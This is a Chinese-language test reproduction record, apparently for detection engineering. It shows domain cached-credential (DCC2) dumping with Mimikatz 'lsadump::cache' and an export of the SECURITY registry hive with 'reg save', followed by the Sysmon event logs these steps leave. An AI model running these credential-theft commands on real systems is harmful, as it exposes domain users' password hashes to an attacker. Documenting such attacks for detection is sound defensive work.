 ## 测试复现

### 环境配置
- 系统：Windows 10（加入域abcc.org）
- 工具：Mimikatz、reg.exe
- 用户：Administrator（域管理员，密码：Password123）
- 日志：Sysmon（事件ID1、13）、Windows安全日志
- 路径：C:\Temp\

### 复现步骤
1. **验证域用户缓存**：
   ```cmd
   reg query HKEY_LOCAL_MACHINE\SECURITY\Cache
   ```
   - 输出：确认缓存存在。
2. **使用Mimikatz提取DCC2哈希**：
   ```cmd
   cd C:\Tools\mimikatz
   mimikatz.exe "privilege::debug" "lsadump::cache" exit
   ```
   - 输出：
     ```
     mscache:
       * Username: user1
       * Domain: ABCC
       * MSCacheV2: <DCC2 Hash>
     ```
3. **导出注册表**：
   ```cmd
   reg save HKEY_LOCAL_MACHINE\SECURITY C:\Temp\security.hiv
   ```
   - 输出：`操作成功完成。`
4. **验证日志**：
   - Sysmon事件ID13：确认`HKLM\SECURITY\Cache`访问。
   - Sysmon事件ID1：确认`mimikatz.exe`执行。

## 测试留痕

### Sysmon日志
- **事件ID1**：
  ```xml
  <Event>
    <EventData>
      <Data Name="Image">C:\Tools\mimikatz\mimikatz.exe</Data>
      <Data Name="CommandLine">mimikatz.exe "privilege::debug" "lsadump::cache"</Data>
      <Data Name="User">ABCC\Administrator</Data>
    </EventData>
  </Event>
  ```
- **事件ID13**：
  ```xml
  <Event>
    <EventData>
      <Data Name="TargetObject">HKLM\SECURITY\Cache</Data>
      <Data Name="Image">C:\Tools\mimikatz\mimikatz.exe</Data>
      <Data Name="User">ABCC\Administrator</Data>
    </EventData>
  </Event>
  ```
